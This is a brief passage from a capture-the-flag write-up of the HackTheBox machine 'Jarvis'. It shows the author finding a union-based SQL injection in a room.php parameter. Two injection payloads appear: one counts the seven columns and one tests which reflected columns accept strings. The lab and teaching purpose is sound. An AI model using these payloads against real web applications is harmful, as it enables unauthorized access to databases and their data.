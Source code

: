 **After some trial and error, I found that it's a Union-based SQL injection:**
```
/room.php?cod=7 UNION ALL SELECT 1,2,3,4,5,6,7-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Jarvis/images/Pasted%20image%2020230728193529.png)

So, there are **7 columns**, and **column 2, 3, 5 is reflected** to the page.

**We can also check column 2, 3, 5 accept string data type or not:**
```
/room.php?cod=7 UNION ALL SELECT 1,'string2','string3',4,'string5',6,7-- -
```
